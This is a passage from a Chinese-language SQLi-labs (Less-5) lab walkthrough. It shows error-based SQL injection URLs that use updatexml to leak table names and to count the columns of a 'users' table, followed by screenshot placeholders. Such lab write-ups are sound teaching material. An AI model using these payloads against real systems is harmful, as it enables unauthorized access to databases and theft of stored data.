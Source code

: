 通过`limit`一个一个查看

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 3,1),0x7e),1) --+
```

![image-20230826211656458](./SQLi_labs.assets/image-20230826211656458.png)

查看有多少个字段

```sql
http://192.168.80.139/sqli/Less-5/?id=1' and updatexml(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema=database() and table_name='users' ),0x7e),1) --+
```

![image-20230826211829631](./SQLi_labs.assets/image-20230826211829631.png)

使用`limit`一个一个查看
